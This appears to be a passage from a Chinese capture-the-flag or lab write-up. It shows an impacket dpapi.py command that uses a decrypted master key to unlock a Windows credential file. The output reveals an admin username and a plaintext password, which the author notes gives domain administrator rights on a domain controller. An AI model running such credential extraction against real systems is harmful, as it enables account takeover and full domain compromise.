 解密主密钥文件，结果：

```
Decrypted key:
0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e
8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

解密凭据文件

```
$ dpapi.py credential -file "C8D69EBE9A43E9DEBF6B5FBD48B521B9" -key
"0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879
e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84"
```

结果：

```
Username : steph.cooper_adm
Unknown : FivethChipOnItsWay2025!
```

bloodhound中可以看到它是在Administrators组中，这又是一台DC，那么就相当于是域管理员，也就是整个域中的最高权限！powershell中可以使用`cat`查看文件内容，它其实是`Get-Content`命令的简写。

